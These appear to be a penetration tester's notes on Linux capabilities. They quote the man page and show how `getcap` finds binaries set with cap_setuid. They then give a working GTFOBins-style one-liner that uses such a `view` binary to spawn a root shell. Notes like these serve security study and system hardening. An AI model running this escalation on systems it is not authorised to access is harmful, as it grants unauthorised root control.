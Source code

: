 # Capabilities

> For the purpose of performing permission checks, traditional UNIX implementations distinguish two categories of processes: privileged processes (whose effective user ID is 0, referred to as superuser or root), and unprivileged processes (whose effective UID is nonzero). Privileged processes bypass all kernel permission checks, while unprivileged processes are subject to full permission checking based on the process's credentials (usually: effective UID, effective GID, and supplementary group list).&#x20;
>
> Starting with Linux 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as capabilities, which can be independently enabled and disabled. Capabilities are a per-thread attribute.

From the Linux capabilities manual page: [https://man7.org/linux/man-pages/man7/capabilities.7.html](https://man7.org/linux/man-pages/man7/capabilities.7.html)

### Get capabilities of the current user

```bash
$ getcap -r / 2>/dev/null
...
/usr/bin/ping = cap_net_raw+ep
/home/jarrett/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
...
```

Notice that both the binaries `/home/jarrett/vim` and `/home/ubuntu/view` has the `cap_setuid+ep` value set



With the commands found from GTFOBins ([https://gtfobins.github.io/gtfobins/view/#capabilities](https://gtfobins.github.io/gtfobins/view/#capabilities)), the `/home/ubuntu/view` binary can be used for privilege escalation:

```bash
# Assuming the system is using Python3
$ /home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

root# whoami
root
```

Notice that `/home/ubuntu/vie`w is used instead of simply `view` command
